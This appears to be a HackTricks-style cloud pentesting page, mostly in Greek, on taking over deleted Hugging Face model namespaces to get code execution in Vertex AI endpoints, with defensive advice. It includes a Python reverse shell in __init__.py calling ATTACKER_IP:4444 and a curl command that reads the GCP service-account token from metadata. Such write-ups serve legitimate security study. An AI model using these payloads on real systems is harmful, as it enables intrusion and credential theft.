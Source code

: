 # GCP - Vertex AI Post-Exploitation via Hugging Face Model Namespace Reuse

{{#include ../../../banners/hacktricks-training.md}}

## Scenario

- Το Vertex AI Model Garden επιτρέπει την άμεση ανάπτυξη πολλών μοντέλων Hugging Face (HF).
- HF model identifiers are Author/ModelName. Εάν ένας author/org στο HF διαγραφεί, το ίδιο όνομα author μπορεί να επανεγγραφεί από οποιονδήποτε. Οι attackers μπορούν τότε να δημιουργήσουν ένα repo με το ίδιο ModelName στη legacy path.
- Pipelines, SDKs, ή cloud catalogs που κάνουν fetch μόνο με όνομα (χωρίς pinning/integrity) θα κατεβάσουν το attacker-controlled repo. Όταν το model αναπτυχθεί, ο loader code από εκείνο το repo μπορεί να εκτελεστεί μέσα στο Vertex AI endpoint container, παρέχοντας RCE με τα permissions του endpoint.

Two common takeover cases on HF:
- Ownership deletion: Η παλιά διαδρομή επιστρέφει 404 μέχρι κάποιος να επανεγγράψει τον author και να δημοσιεύσει το ίδιο ModelName.
- Ownership transfer: Το HF εκδίδει 307 redirects από το παλιό Author/ModelName προς τον νέο author. Αν ο παλιός author διαγραφεί αργότερα και επανεγγραφεί από attacker, η αλυσίδα redirect σπάει και το attacker’s repo σερβίρει στη legacy path.

## Identifying Reusable Namespaces (HF)

- Old author deleted: η σελίδα του author επιστρέφει 404; το model path μπορεί να επιστρέφει 404 μέχρι takeover.
- Transferred models: το παλιό model path εκδίδει 307 προς τον νέο owner όσο ο παλιός author υπάρχει. Αν ο παλιός author διαγραφεί αργότερα και επανεγγραφεί, η legacy path θα δείχνει στο attacker’s repo.

Quick checks with curl:
```bash
# Check author/org existence
curl -I https://huggingface.co/<Author>
# 200 = exists, 404 = deleted/available

# Check old model path behavior
curl -I https://huggingface.co/<Author>/<ModelName>
# 307 = redirect to new owner (transfer case)
# 404 = missing (deletion case) until someone re-registers
```
## Ολοκληρωμένη ροή επίθεσης εναντίον Vertex AI

1) Ανακαλύψτε επαναχρησιμοποιήσιμα namespaces μοντέλων που το Model Garden εμφανίζει ως αναπτύξιμα:
- Βρείτε HF models στο Vertex AI Model Garden που εξακολουθούν να εμφανίζονται ως “verified deployable”.
- Επαληθεύστε στο HF αν ο αρχικός author έχει διαγραφεί ή αν το μοντέλο μεταφέρθηκε και ο παλιός author αφαιρέθηκε αργότερα.

2) Επανεγγράψτε τον διαγραμμένο author στο HF και αναδημιουργήστε το ίδιο ModelName.

3) Publish ένα malicious repo. Περιλάβετε code που εκτελείται κατά το model load. Παραδείγματα που συχνά εκτελούνται κατά το HF model load:
- Παράπλευρες ενέργειες στο __init__.py του repo
- Προσαρμοσμένα modeling_*.py ή processing code που αναφέρονται από config/auto_map
- Code paths που απαιτούν trust_remote_code=True σε Transformers pipelines

4) Μια Vertex AI deployment του legacy Author/ModelName πλέον τραβάει το κακόβουλο repo. Ο loader εκτελείται μέσα στο container του Vertex AI endpoint.

5) Το payload εγκαθιστά πρόσβαση από το περιβάλλον του endpoint (RCE) με τα δικαιώματα του endpoint.

Παράδειγμα αποσπάσματος payload που εκτελείται κατά το import (μόνο για επίδειξη):
```python
# Place in __init__.py or a module imported by the model loader
import os, socket, subprocess, threading

def _rs(host, port):
s = socket.socket(); s.connect((host, port))
for fd in (0,1,2):
try:
os.dup2(s.fileno(), fd)
except Exception:
pass
subprocess.call(["/bin/sh","-i"])  # Or python -c exec ...

if os.environ.get("VTX_AI","1") == "1":
threading.Thread(target=_rs, args=("ATTACKER_IP", 4444), daemon=True).start()
```
Σημειώσεις
- Οι πραγματικοί loaders ποικίλλουν. Πολλές Vertex AI HF integrations κλωνοποιούν και εισάγουν repo modules που αναφέρονται στο config του μοντέλου (π.χ., auto_map), κάτι που μπορεί να προκαλέσει code execution. Ορισμένες χρήσεις απαιτούν trust_remote_code=True.
- Το endpoint συνήθως τρέχει σε αφιερωμένο container με περιορισμένο εύρος, αλλά αποτελεί έγκυρο αρχικό foothold για πρόσβαση σε δεδομένα και lateral movement στο GCP.

## Post-Exploitation Tips (Vertex AI Endpoint)

Μόλις code τρέχει μέσα στο endpoint container, σκεφτείτε:
- Απαρίθμηση μεταβλητών περιβάλλοντος και metadata για credentials/tokens
- Πρόσβαση σε συνδεδεμένη αποθήκευση ή σε προσαρτημένα artifacts μοντέλου
- Αλληλεπίδραση με Google APIs μέσω ταυτότητας service account (Document AI, Storage, Pub/Sub, κ.λπ.)
- Επίμονη παρουσία στο artifact του μοντέλου αν η πλατφόρμα επανα-τραβήξει το repo

Απαριθμήστε τα instance metadata αν είναι προσβάσιμα (εξαρτάται από το container):
```bash
curl -H "Metadata-Flavor: Google" \
http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token
```
## Οδηγίες άμυνας για χρήστες του Vertex AI

- Κλειδώστε τα μοντέλα ανά commit στους HF loaders για να αποτρέψετε την αθόρυβη αντικατάσταση:
```python
from transformers import AutoModel
m = AutoModel.from_pretrained("Author/ModelName", revision="<COMMIT_HASH>")
```
- Καθρεφτίστε επαληθευμένα HF models σε ένα αξιόπιστο εσωτερικό artifact store/registry και κάντε deploy από εκεί.
- Σκανάρετε συνεχώς codebases και configs για hard-coded Author/ModelName που έχουν διαγραφεί/μεταβιβαστεί· ενημερώστε σε νέα namespaces ή pin ανά commit.
- Στο Model Garden, επαληθεύστε την προέλευση (provenance) του μοντέλου και την ύπαρξη του author πριν το deploy.

## Ευριστικές Αναγνώρισης (HTTP)

- Deleted author: η σελίδα του author 404; το legacy model path 404 μέχρι takeover.
- Transferred model: legacy path 307 προς νέο author ενώ ο παλιός author υπάρχει; αν ο παλιός author αργότερα διαγραφεί και επανεγγραφεί, το legacy path σερβίρει attacker content.
```bash
curl -I https://huggingface.co/<OldAuthor>/<ModelName> | egrep "^HTTP|^location"
```
## Διασταυρούμενες Αναφορές

- Δείτε την ευρύτερη μεθοδολογία και σημειώσεις για την αλυσίδα εφοδιασμού:

{{#ref}}
../../pentesting-cloud-methodology.md
{{#endref}}

## Αναφορές

- [Model Namespace Reuse: An AI Supply-Chain Attack Exploiting Model Name Trust (Unit 42)](https://unit42.paloaltonetworks.com/model-namespace-reuse/)
- [Hugging Face: Renaming or transferring a repo](https://huggingface.co/docs/hub/repositories-settings#renaming-or-transferring-a-repo)

{{#include ../../../banners/hacktricks-training.md}}
